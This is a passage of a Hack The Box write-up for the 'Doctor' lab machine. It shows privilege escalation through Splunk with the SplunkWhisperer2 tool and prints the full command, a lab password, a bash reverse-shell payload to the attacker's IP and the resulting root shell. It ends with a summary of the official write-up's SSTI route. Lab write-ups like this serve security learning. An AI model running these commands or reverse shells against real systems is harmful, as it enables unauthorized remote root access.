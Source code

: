 While looking through the Linux Privilege Escalation page on hacktricks, I see Splunk LPE and Persistance. And I remember we have splunk running on port 8089.

I log in with shaun's credentials.

The splunk page on hacktricks leads me to https://github.com/cnotin/SplunkWhisperer2

I check the netcat version on the machine and find that it does not support -e or -c. so I do a simple bash reverse shell.

```
root@kali:/home/kali/SplunkWhisperer2/PySplunkWhisperer2# python PySplunkWhisperer2_remote.py --host="doctors.htb" --username="shaun" --password="Guitar123" --lhost="10.10.14.51" --payload "bash -c 'bash -i >& /dev/tcp/10.10.14.51/1338 0>&1'"
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /tmp/tmpFb_B_R.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.51:8181/
10.129.118.253 - - [23/Mar/2021 19:35:50] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!

Press RETURN to cleanup


And then after a while on the other terminal window:


root@kali:/home/kali/htb/Doctor# nc -nlvp 1338
Listening on 0.0.0.0 1338
Connection received on 10.129.118.253 45276
bash: cannot set terminal process group (1170): Inappropriate ioctl for device
bash: no job control in this shell
root@doctor:/# whoami
whoami
root
root@doctor:/# 
```


## Comparing myself with the official writeup:

They find the doctors.htb domain and immediately add it to their hosts file.

They find the archive and identify the SSTI vulnerability.

They then identify that it is jinja2 and send a payload with a reverse tcp shell.

They find the password in the logs and log in as shaun.

They discover that splunk is running as root and use splunkwhisperer2 to get another reverse shell, this time as root.

